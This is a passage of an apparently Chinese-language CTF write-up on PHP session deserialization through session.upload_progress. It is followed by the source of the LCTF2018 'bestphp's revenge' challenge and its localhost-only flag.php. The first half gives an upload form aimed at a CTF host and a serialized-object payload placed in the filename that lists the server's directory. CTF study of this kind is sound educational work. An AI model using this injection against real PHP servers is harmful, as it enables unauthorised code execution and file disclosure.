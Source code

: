 上传表单

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

其中目标网址需要替换, php_session_upload_progress是session.upload_progress.name的名字, 从phpinfo中看.

然后随便传点什么进去. 在burpsuite中做如下修改

将随便传的文件的filename成payload, 比如

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

这里的斜杆是为了防止转义.签名的竖线就是帮助php处理器解释使用的.

 

## 例题LCTF2018-bestphp’s revenge 

题目直接给出了源代码

```php
<?php

highlight_file(__FILE__);

$b = 'implode';

call_user_func($_GET['f'], $_POST);

session_start();
if (isset($_GET['name'])) {
        $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

整理一下

- call_user_func: 第一个参数是回调函数的名字,第二个之后的参数是回调函数的参数,**特别的,如果传入的是一个数组的话,他会将数组的第一项识别为类和对象,并将之后的参数作为类和对象的方法来调用**.

- reset会将数组的第一项作为字符串输出
- implode 函数只是合并数组的时候插入一些给定字符而已,无关紧要.

扫描目录发现了flag.php

```php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```
